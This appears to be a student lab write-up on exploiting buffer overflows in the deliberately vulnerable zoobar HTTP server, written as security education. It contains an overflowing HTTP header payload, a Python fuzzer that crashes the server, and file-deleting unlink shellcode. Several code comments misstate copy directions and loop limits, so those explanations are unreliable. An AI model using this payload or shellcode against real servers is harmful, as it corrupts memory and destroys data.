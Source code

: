 ## Zoobar HTTP Server vulnerabilities

I first started to look for any vulnerable functions within the program that are known to be vulnerable to buffer overflows. OWASP states the following: "C library functions such as strcpy (), strcat (), sprintf () and vsprintf () operate on null terminated strings and perform no bounds checking." So these particular functions were the ones I was interested in if they were being used by the program.

[http.c:165] 
The program allocates 8192 bytes for the variable 'buf' and 512 bytes for the variable 'envvar'. The envvar variable can be overwritten by the sprintf function, because it does not perform any bounds checking for the buffer size.

    static char buf[8192];   // Here the program allocates the 8192 bytes for the variable 'buf'
    char envvar[512]; // Here it allocates 512 bytes for the variable 'envvar'
    ...
    ...
    ...
    sprintf(envvar, "HTTP_%s", buf); // Here sprintf will copy the content of envvar to buf

If the input exceeds the 512 byte limit it will overflow the buffer and we as an attacker will have control of the execution of the program. There are also other functions that does not perform bound checking and are prone to buffer overflow related attacks. 

For example, as an attack payload we can send the following HTTP Request that will overflow the buffer with a malicious HTTP header:

    GET / HTTP/1.1
    Host: 192.168.239.153
    HTTP_BBBBBBBBBBBB.......BBBBBBBB: foo
    Connection: Close

------

[http.c:282]
In the 'http_serve' function the program allocates 1024 bytes for a variable 'pn'. Then it uses the vulnerable 'strcat' function that does not perform bounds checking when concatenating to destination 'name'.

    void http_serve(int fd, const char *name)
    {
    void (*handler)(int, const char *) = http_serve_none;
    char pn[1024];
    struct stat st;

    getcwd(pn, sizeof(pn));
    setenv("DOCUMENT_ROOT", pn, 1);

    strcat(pn, name); // Here it uses the strcat function to append a copy of the source string to the destination variable 'name'

If we as an attacker provide more than the allocated 1024 bytes in the buffer for the 'pn' variable we can overflow the buffer.

------

[http.c:344]
In the 'dir_join' function the program uses another vulnerable function - strcpy, which does not check buffer lengths and just copies given input into the buffer.

    strcpy(dst, dirname); // Here the program uses strcpy function to copy the 'dst' variable input into 'dirname' variable

------

[http.c:347]
In the 'dir_join' function the program also uses 'strcat', which does not check buffer lengths and just concatenates user input as is.

    strcat(dst, filename); // Here the program uses strcat function to copy the 'dst' variable input into 'filename' variable

------

## Stack canaries

Linux systems has a protection mechanism against buffer overflow attacks, known as canaries. The idea behind a stack canary is to place a 4-byte value onto the stack after the buffer and before the return pointer. The point in the canary is that if we as an attacker overflow the buffer and the canary value is not the same upon function completion as when it was pushed onto the stack, a function is called to terminate the process.

There are three main types of canaries:
######Terminator canary
    0x00000aff & 0x000aff0d
######Random canary
    random 4-byte value protected in memory
######Null canary
    0x00000000

The idea behind a terminator canary is to cause string operations to terminate when trying to overwrite the buffer and return pointer. It is possible for an attacker to place same value in the attack payload that will overwrite the terminator canary value and pass as valid.

Random canary is more preferred method over terminator canary. It is a randomly generated 4-byte value placed onto the stack. It is important to use enough entropy when generating random 4-byte values as otherwise it can be possible for an attacker to brute force the canary value.

Null canary is the weakest option of the three. The canary is a 4-byte value containing all 0s, this is very trivial for an attacker to bypass.

------

## Exploits

For the second vulnerability we chose to exploit was how the zoobar HTTP server handles HTTP requests headers. If we as an attacker create an arbitrary header that exceeds the 'envvar' variable 512 bytes, we successfully corrupt the memory of the zoobar process.

    # Fuzzed HTTP Requests trying to find
    # the maximum size that the server
    # can handle

    import sys, socket, time
    
    # Use in the form "python httpfuzz.py host port"

    host = sys.argv[1] # Recieve IP from user
    port = int(sys.argv[2]) # Recieve Port from user

    length = 100 # Initial length of 100 A's

    while (length < 11000): # Stop once we've tried up to 3000 length
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Declare a TCP socket
        client.connect((host, port)) # Connect to user supplied port and IP address

        command = "GET / HTTP/1.1\r\nHost: " + host + "HTTP_" + length * "B" + ": foo" + "\r\nConnection: Close\r\n\r\n"
        client.send(command) # Send the user command with a variable length name
        data = client.recv(1024) # Recieve Reply
        client.close() # Close the Connection
        time.sleep(2)
        print "Length Sent: " + str(length) # Output length of the request
        length += 100 # Try again with an increased length

The memory corruption happens after we have sent little over 500 bytes:

    Length Sent: 500
    Traceback (most recent call last):
      File "fuzzer.py", line 20, in <module>
        data = client.recv(1024) # Recieve Reply
    socket.error: [Errno 54] Connection reset by peer

If we look at the status of dmesg, we can see the following:

    [ 9611.046876] zookfs-exstack[3471]: segfault at 42424242 ip 42424242 sp bfffde00 error 14

------

## Unlinking grades.txt

For the buffer overflow exploit we were required to modify the Aleph One's shellcode in a way that it will use the Linux syscall unlink that will remove the /home/httpd/grades.txt file from the machine. Below we have provided the modified shellcode.S file to achieve this goal:

    #include <sys/syscall.h>

    #define STRING	"/home/httpd/grades.txt" /* Provide the filepath to the grades.txt file */
    #define STRLEN	22 /* Length of the string for the target file */
    #define ARGV	(STRLEN+1)
    #define ENVP	(ARGV+4)

    .globl main
    	.type	main, @function

     main:
    	jmp	calladdr

     popladdr:
    	popl	%esi
    	movl	%esi,(ARGV)(%esi)	/* set up argv pointer to pathname */
    	xorl	%eax,%eax		/* get a 32-bit zero value */
    	movb	%al,(STRLEN)(%esi)	/* null-terminate our string */
    	movl	%eax,(ENVP)(%esi)	/* set up null envp */

    	add     $5, %al         /* add 5 low bytes to avoid the unlink syscall, is 10 or '\n' (newline) */
        add     $5, %al         /* add 5 low bytes to avoid the unlink syscall, is 10 or '\n' (newline) */
    	movl	%esi,%ebx		/* syscall arg 2: string pathname */
    	leal	ARGV(%esi),%ecx		/* syscall arg 2: argv */
    	leal	ENVP(%esi),%edx		/* syscall arg 3: envp */
    	int	$0x80			/* invoke syscall */

    	xorl	%ebx,%ebx		/* syscall arg 2: 0 */
    	movl	%ebx,%eax
    	inc	%eax			/* syscall arg 1: SYS_exit (1), uses */
        					/* mov+inc to avoid null byte */
    	int	$0x80			/* invoke syscall */

     calladdr:
    	call	popladdr
    	.ascii	STRING

We modified the STRING and STRLEN values to match the file path of the grades.txt and the length of the string. We also changed the syscall command from 'execve' to 'unlink'. This was all that was required to achieve the goal to have the shellcode remove the grades.txt file from the target machine.

------
